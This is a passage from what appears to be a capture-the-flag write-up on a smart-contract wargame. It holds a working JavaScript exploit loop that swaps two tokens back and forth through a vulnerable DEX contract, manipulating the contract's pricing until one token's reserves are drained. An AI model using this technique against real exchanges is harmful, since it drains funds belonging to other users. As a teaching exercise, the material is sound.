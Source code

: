 ```js
  for (i = 1; i != maxiters && t1_dex > 0 && t2_dex > 0; ++i) {
    if (i % 2) {
      // trade t1 to t2
      a = t1_player;
      sa = (await contract.getSwapPrice(T1, T2, a)).toNumber();
      if (sa > t2_dex) {
        a = t1_dex;
      }

      // make the call
      await contract.approve(contract.address, a);
      await contract.swap(T1, T2, a);
    } else {
      // trade t2 to t1
      a = t2_player;
      sa = (await contract.getSwapPrice(T2, T1, a)).toNumber();
      if (sa > t1_dex) {
        a = t2_dex;
      }

      // make the call
      await contract.approve(contract.address, a);
      await contract.swap(T2, T1, a);
    }

    // new balances
    [t1_player, t2_player, t1_dex, t2_dex] = (
      await Promise.all([
        contract.balanceOf(T1, PLAYER),
        contract.balanceOf(T2, PLAYER),
        contract.balanceOf(T1, DEX),
        contract.balanceOf(T2, DEX),
      ])
    ).map(bn => bn.toNumber());

    console.log(
      `Trade #${i}
        D1: ${t1_dex}
        D2: ${t2_dex}
        P1: ${t1_player}
        P2: ${t2_player}
        Gave: ${a} Token ${i % 2 ? '1' : '2'}
        Took: ${sa} Token ${i % 2 ? '2' : '1'}`
    );
  }
}
// await pwn()
```

Once you run the function above, it will take a series of transactions (your console will be quite colorful) to complete but in the end, DEX will have depleted one of the tokens! To confirm, you may run the 4 lines at the beginning of this post to check the balances.
